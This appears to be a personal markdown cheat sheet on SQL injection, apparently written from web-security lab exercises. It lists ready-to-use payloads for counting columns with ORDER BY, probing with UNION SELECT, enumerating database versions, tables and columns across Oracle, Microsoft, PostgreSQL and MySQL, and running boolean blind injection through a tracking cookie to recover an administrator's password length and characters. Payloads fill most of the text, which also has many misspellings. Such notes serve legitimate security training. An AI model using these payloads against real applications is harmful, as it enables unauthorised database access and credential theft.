 # SQL Injection

### How to check column in table query

Injecting a series of ORDER BY clauses and incrementing the specified column index until an error occurs.
```
' ORDER BY 1 -- 
' ORDER BY 2 --
' ORDER BY 3 --
```

### Finding columns with a useful data type

Having already determined the number of required columns, you can probe each column to test whether it can 
hold string data by submitting a series of UNION SELECT payloads that place a string value into each column in turn.
```
' UNION SELECT ‘a’,NULL,NULL,NULL --
' UNION SELECT NULL,’a’,NULL,NULL -- 
' UNION SELECT NULL,NULL,’a’,NULL --
' UNION SELECT NULL,NULL,NULL,’a’ --
```
 - When determining the sata type from an *Oricle* database you will need to use the from clause. 
    - Example: `' UNION SELECT ‘a’,NULL FROM DUAL--`

## Database version
### You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

- Oracle: 	`SELECT banner FROM v$version` or `SELECT version FROM v$instance`
  > Example: `' UNION SELECT banner,NULL FROM v$version--`
- Microsoft: 	`SELECT @@version`
- PostgreSQL: 	`SELECT version()` 
  > Example: `'+UNION+SELECT+version()+,NULL--`
- MySQL: 	`SELECT @@version`

## Database contents
### You can list the tables that exist in the database, and the columns that those tables contain.

- Oracle
  - `SELECT * FROM all_tables`
    > Example: `' UNION SELECT TABLE_NAME,NULL FROM all_tables--`
    >> *table_name* is a sql_identifier that displays the name(s) of the table(s)
  - `SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`
    > Example: `' UNION SELECT COLUMN_NAME,NULL FROM all_tab_columns WHERE table_name = 'USERS_QQGUCL'--`
    >> *column_name* is a	sql_identifier that displays the name(s) of the column(s) under a specified table 
- Microsoft	
  - `SELECT * FROM information_schema.tables`
  - `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
- PostgreSQL	
  - `SELECT * FROM information_schema.tables`
    > Example: `' UNION SELECT table_name,NULL FROM information_schema.tables--` 
    >> *table_name* is a sql_identifier that displays the name(s) of the table(s)
  - `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` 
    > Example: `' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users_jrcoia'--`
    >> *column_name* is a	sql_identifier that displays the name(s) of the column(s) under a specified table 
- MySQL	
  - `SELECT * FROM information_schema.tables`
  - `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`

# Blind SQL Injection

### Test to see if application is vulnerable to blind SQLi
Force a true statement buy injectiong `' and 1=1--` (true) and `' and 1=2--` (false) at the end of the tracking id to see how the application responds to a true statement and a false statement. We can use the difference in how the application responds to gather information about the system.
> Example `Cookie: TrackingId=Tz8WopT2zdfF3ayw' and 1=1--; session=3NYJZxhVb8RYO3dnt4ia4hYVL8zidlNQ` true message
> Example `Cookie: TrackingId=Tz8WopT2zdfF3ayw' and 1=2--; session=3NYJZxhVb8RYO3dnt4ia4hYVL8zidlNQ` false message

#### Example qureies on how to inject code for information in blind SQLi
- `' and (select 'x' from users LIMIT 1)='x'--` This quiere states that if there is a users_table return x. If there is a users_table then we will get a true response back, if there is no users_table then we will get a false response back.
- `' and (select username from users where username='administrator')='administrator'--` If the first quiere returns true and there is a users table then we can also send this queire to see if there is an administrators account in the users_table

#### Password enumeration with blind SQLi
1. Find out the length of the password: `' and (select username from users where username='administrator' and LENGTH (password)>1)='administrator'--` This quiere returns true if the password length is grater than 1. Increase the lenght number after every true message untill you get a false message indicating the passowrd length 
> Example: This set of quereies indicated that the password lenght is 16 characters long
```
`' and (select username from users where username='administrator' and LENGTH (password)>14)='administrator'--` true
`' and (select username from users where username='administrator' and LENGTH (password)>15)='administrator'--` true
`' and (select username from users where username='administrator' and LENGTH (password)>16)='administrator'--` flase
```

2. Once you know the length of the password now you can quiere for characters in the same way buy submitting tons of request testing each letter/number/symbol untill you get a true response
> Example: `' and (select substring(password,1,1) from users where username='administrator')='a'--` the subtring peramiter specifies where we want to test, what position in the string to test and how many characters we want to test.
